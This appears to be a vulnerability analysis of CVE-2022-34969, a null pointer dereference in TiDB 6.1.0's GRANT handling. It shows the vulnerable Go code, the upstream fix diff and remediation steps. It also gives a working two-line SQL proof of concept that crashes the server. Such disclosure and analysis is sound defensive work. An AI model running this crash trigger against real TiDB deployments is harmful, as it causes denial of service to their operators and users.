


# CVE-2022-34969 CWE-476 TiDB null pointer dereference

## Vulnerability Background
- **TiDB :** An open-source distributed relational database developed by PingCAP. It is compatible with the MySQL protocol, featuring horizontal scalability, strong consistency, and high availability, supporting Online Transaction Processing (OLTP) and Online Analytical Processing (OLAP), making it a hybrid transactional and analytical processing (HTAP) database. TiDB adopts a segregated architecture for computing and storage, implementing distributed storage through TiKV, and providing a column storage engine with TiFlash, suitable for scenarios requiring high data consistency, high availability, and real-time analysis.

- ```txt
  CWE-476: NULL Pointer Dereference
  The product dereferences a pointer that it expects to be valid but is NULL.
## Vulnerability Mechanism
Because TiDB does not perform null pointer checking for `user.AuthOpt.AuthPlugin` access, when executing specific `GRANT` statements, TiDB attempts to access a field of a `user.AuthOpt` object that may be `nil`, causing the program to crash.

## Vulnerability Location
Analysis of TiDB - 6.1.0 Source Code:

In the executor/grant.go file, at line 65, in the (e *GrantExec) Next function.

Line 116 does not perform null pointer checking for access to `user.AuthOpt.AuthPlugin`, causing NULL pointer dereference triggered when executing specific `GRANT` statements, which leads to TiDB crash.

```c
executor/grant.go file, line 65
func (e *GrantExec) Next(ctx context.Context, req *chunk.Chunk) error {
    
    // ...
		if !exists && e.ctx.GetSessionVars().SQLMode.HasNoAutoCreateUserMode() {
			return ErrCantCreateUserWithGrant
		} else if !exists {
			pwd, ok := user.EncodedPassword()
			if !ok {
				return errors.Trace(ErrPasswordFormat)
			}
			authPlugin := mysql.AuthNativePassword
********** 116 lines **********
			if user.AuthOpt.AuthPlugin != "" {
				authPlugin = user.AuthOpt.AuthPlugin
			}
			_, err := internalSession.(sqlexec.SQLExecutor).ExecuteInternal(ctx,
				`INSERT INTO %n.%n (Host, User, authentication_string, plugin) VALUES (%?, %?, %?, %?);`,
				mysql.SystemDB, mysql.UserTable, strings.ToLower(user.User.Hostname), user.User.Username, pwd, authPlugin)
			if err != nil {
				return err
			}
		}
	}
```

## Remediation
Use a maintained TiDB release containing pull request #35365 / commit `e1f9e0a`, or apply that correction to the affected 6.1-era code. Until updated, restrict `GRANT` privileges and reject attempts to grant privileges to a nonexistent account. Upstream tracks this as a moderate-severity bug; the public evidence demonstrates a panic/denial of service, not code execution.

Adding null pointer checks before accessing `user.AuthOpt.AuthPlugin` ensures that no access occurs when `user.AuthOpt` is `nil`, thus avoiding the issue of null pointer dereference.

```c
diff --git a/executor/grant.go b/executor/grant.go
index 04e7ffc5914c3..99db32abe79d1 100644
--- a/executor/grant.go
+++ b/executor/grant.go
@@ -163,7 +163,7 @@ func (e *GrantExec) Next(ctx context.Context, req *chunk.Chunk) error {
 				return errors.Trace(ErrPasswordFormat)
 			}
 			authPlugin := mysql.AuthNativePassword
-			if user.AuthOpt.AuthPlugin != "" {
+			if user.AuthOpt != nil && user.AuthOpt.AuthPlugin != "" {
 				authPlugin = user.AuthOpt.AuthPlugin
 			}
 			_, err := internalSession.(sqlexec.SQLExecutor).ExecuteInternal(ctx,
```

## Affected Versions
TiDB ：

- 6.1.0

## Environment Setup
Start the Docker environment, TiDB version 6.1.0

```txt
CNA:NVD   Base Score:7.5 HIGH  Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N
```

```txt
cpe:2.3:a:pingcap:tidb:6.1.0:-:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Enter the container command line and use the mysql tool to connect to TiDB, with the password set to password

   ```bash
   docker exec -it tidb-6.1.0 mysql --host 127.0.0.1 --port 4000 -u root -D test_db -p
   ```

2. Execute the PoC code, and you will see an error indicating an empty pointer dereference

   ```sql
   SET sql_mode="";
   GRANT ALL PRIVILEGES ON *.* to '???';
   ```

   

## PoC Analysis

```sql
SET sql_mode="";
GRANT ALL PRIVILEGES ON *.* to '???';
```

This operation attempts to assign permissions to the user `'???'`, but since the `user.AuthOpt` is `nil`, direct access to the `user.AuthOpt.AuthPlugin` will cause the null pointer to unreference, causing a runtime error.

## References
https://nvd.nist.gov/vuln/detail/CVE-2022-34969

[runtime error: invalid memory address or nil pointer dereference (Maybe not a bug) · Issue #35310 · pingcap/tidb](https://github.com/pingcap/tidb/issues/35310)

[executor: fix panic when granting privilege to a non-exists user by djshow832 · Pull Request #35365 · pingcap/tidb](https://github.com/pingcap/tidb/pull/35365/commits/829403b97cb08b6740b057ec0eb0ade267af8184)
